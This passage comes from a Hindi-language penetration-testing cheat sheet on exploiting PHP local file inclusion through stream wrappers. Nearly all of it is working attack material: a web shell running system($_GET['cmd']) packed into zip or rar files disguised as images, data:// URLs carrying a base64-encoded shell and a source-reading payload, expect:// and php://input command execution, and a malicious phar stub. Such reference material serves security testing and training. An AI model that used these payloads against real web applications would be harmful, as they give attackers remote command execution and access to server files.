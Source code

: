 एक Zip या Rar फ़ाइल अपलोड करें जिसमें एक PHPShell हो और इसे एक्सेस करें।\
रार प्रोटोकॉल का दुरुपयोग करने के लिए इसे **विशेष रूप से सक्रिय** किया जाना चाहिए।
```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```
### डेटा://
```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
**कृपया ध्यान दें कि यह प्रोटोकॉल php कॉन्फ़िगरेशन द्वारा प्रतिबंधित है **`allow_url_open`** और **`allow_url_include`**

### expect://

Expect को सक्रिय किया जाना चाहिए। आप इसका उपयोग करके कोड को निष्पादित कर सकते हैं:
```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
### इनपुट://

POST पैरामीटर में अपना पेयलोड निर्दिष्ट करें:
```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```
### phar://

एक `.phar` फ़ाइल का उपयोग PHP कोड को निष्पादित करने के लिए किया जा सकता है जब एक वेब एप्लिकेशन फ़ाइल लोडिंग के लिए `include` जैसे फ़ंक्शन का उपयोग करता है। नीचे दिए गए PHP कोड स्निपेट में `.phar` फ़ाइल बनाने का प्रदर्शन किया गया है:
```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```
`.phar` फ़ाइल को कॉम्पाइल करने के लिए, निम्नलिखित कमांड को निष्पादित किया जाना चाहिए:
```bash
php --define phar.readonly=0 create_path.php
```
जब निष्पादन होता है, तो एक फ़ाइल नामक `test.phar` बनाई जाएगी, जिसे संभावित रूप से स्थानीय फ़ाइल समावेशन (LFI) दुरुपयोग के लिए उपयोग किया जा सकता है।
